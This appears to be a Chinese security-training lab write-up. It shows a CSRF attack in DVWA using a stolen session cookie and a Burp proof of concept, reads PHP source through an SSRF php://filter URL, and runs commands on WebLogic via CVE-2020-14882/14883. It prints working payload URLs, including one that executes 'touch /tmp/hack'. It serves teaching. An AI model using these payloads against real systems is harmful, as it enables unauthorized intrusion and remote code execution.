## 1.CSRF

- DVWA-High 等级

在谷歌浏览器登录DVWA的用户smithy，利用XSS漏洞输入获取smithy用户的cookie

PHPSESSID=u9fvg4fescp78va2qhk7s4di03; security=high



在火狐浏览器登录admin用户，在CSRF模块修改密码，然后用Burp抓包，修改security等级为low，把当前cookie中的PHPSESSID替换为smithy的，然后去掉参数User_token



此时火狐浏览器登录账户为smithy，security等级为low，提示密码已经修改



- 使用 Burp 生成 CSRF 利用 POC

首先在谷歌浏览器登录allen的账号，可以看到此时个人信息都为初始值



在火狐浏览器登录lucy的账号，修改个人信息，然后用Burp抓包





利用Burp生成POC



复制HTML代码，然后在谷歌浏览器打开，点击提交



此时谷歌浏览器登录的allen个人信息被修改



## 2.SSRF（file_get_content），要求获取 ssrf.php 的源码；

利用 php://filter 来读取php源码；为了防止源码被解析，对代码进行编码，在read参数中加入 convert.base64-encode ；同时ssrf.php在ssrf文件夹下，和ssrf_fgc.php在同一个文件夹下，所以URL链接为 

http://10.0.0.131/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=ssrf.php



利用解码工具进行解码，得到ssrf.php源码，源码保存在了记事本里

## 3.远程代码执行漏洞：Weblogic RCE。

利用CVE-2020-14882漏洞未授权访问到后台管理页面，URL链接为

http://10.0.0.131:7001/console/css/%252e%252e%252fconsole.portal



然后再借助漏洞CVE-2020-14883，访问下列URL链接，在服务器tmp文件夹下新建文件hack

10.0.0.131:7001/console/images/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/hack');")

在容器后台进行查看，发现确实在tmp文件夹下新建了hack文件


